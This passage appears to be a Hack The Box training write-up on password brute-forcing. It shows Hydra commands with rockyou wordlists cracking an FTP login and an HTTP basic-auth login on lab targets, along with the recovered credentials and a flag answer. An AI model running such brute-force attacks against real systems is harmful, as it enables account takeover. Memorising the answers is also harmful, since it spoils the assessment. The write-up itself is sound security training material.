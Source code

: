 ```
b.gates@bruteforcing-2-476470-865f7b6f77-db86m:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 11:49:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/
[21][ftp] host: 127.0.0.1   login: m.gates   password: computer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 11:49:52

b.gates@bruteforcing-2-476470-865f7b6f77-db86m:~$ su m.gates
Password: 
m.gates@bruteforcing-2-476470-865f7b6f77-db86m:/home/b.gates$ cd ../m.gates
m.gates@bruteforcing-2-476470-865f7b6f77-db86m:~$ ls
flag.txt
m.gates@bruteforcing-2-476470-865f7b6f77-db86m:~$ cat flag.txt
HTB{1_4m_@_bru73_f0rc1n6_m4573r}
```

**Answer:** `HTB{1_4m_@_bru73_f0rc1n6_m4573r}`

---
## Skills Assessment - Website
### Question 1:
![](./attachments/Pasted%20image%2020220709102141.png)

```
┌──(kali㉿kali)-[~/username-anarchy]
└─$ hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -u 46.101.60.47 -s 31524 http-get /
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 07:04:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1006145 login tries (l:17/p:59185), ~62885 tries per task
[DATA] attacking http-get://46.101.60.47:31524/
[31524][http-get] host: 46.101.60.47   login: user   password: password
```
